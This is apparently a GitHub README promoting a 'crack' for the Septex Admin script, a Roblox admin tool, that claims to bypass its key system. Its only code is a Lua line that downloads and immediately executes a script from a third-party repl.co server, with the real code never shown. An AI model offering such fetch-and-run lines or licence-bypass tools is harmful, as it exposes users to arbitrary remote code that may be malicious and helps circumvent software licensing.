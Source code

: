 
# Septex Free Version (REAL NO SCAM PUNJABI OMG!!!)
![lol](https://i.imgflip.com/3bovka.png?a464880)\
I'm sure you read the description correctly. That's right, a **Septex Admin crack!**
No more annoying key system, just run the script and it will bypass the key system flawlessly.

```lua
loadstring(game:HttpGet("https://crackserver.mrelxs.repl.co/septex/client", true))()
```
Enjoy your new free admin script. If you want to check the code of this, see crackserver.mrelxs.repl.co/septex/client
